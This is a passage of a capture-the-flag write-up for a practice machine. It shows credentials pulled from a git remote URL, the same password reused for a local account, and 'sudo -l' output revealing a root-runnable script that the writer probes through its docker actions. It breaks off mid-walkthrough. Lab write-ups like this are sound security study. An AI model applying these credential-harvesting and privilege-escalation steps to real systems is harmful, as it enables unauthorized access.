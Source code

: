 The interesting line is

```
remote.origin.url=http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

This revelas multiple things:

- There is a subdomain `gitea.searcher.htb` taht runs a gitea instance. I will add this to my /etc/hosts file.
- The remote url uses HTTP uses basic authorization, so i can get credentials to login to gitea - user:cody and password:jh1usoih2bkjaspwe92

I can use these credentials to login to the gitea instance, but there is nothing new besides the source code of the web application, that doesn't contain anything interesting.

Howerver, the password for `cody` works for my current `svc` user, and i can use thsi to run `sudo -l` command:

```
-bash-5.1$ sudo -l 
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

I can't read the `system-checkup.py` script since i don't have enough privilages, but i can just run the script and see what happens:

```
-bash-5.1$ sudo python3 /opt/scripts/system-checkup.py test
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

When i choose the `docker-ps` action, it shows there are 2 running containers:

```
-bash-5.1$ sudo python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 3 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 3 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

I was aware of gitea, but mysql running is new to me. There is a second action, `docker-inspect`, which will presumably jsut run the `docker inspect` command. I can use this to dump the configuration of the mysql image:
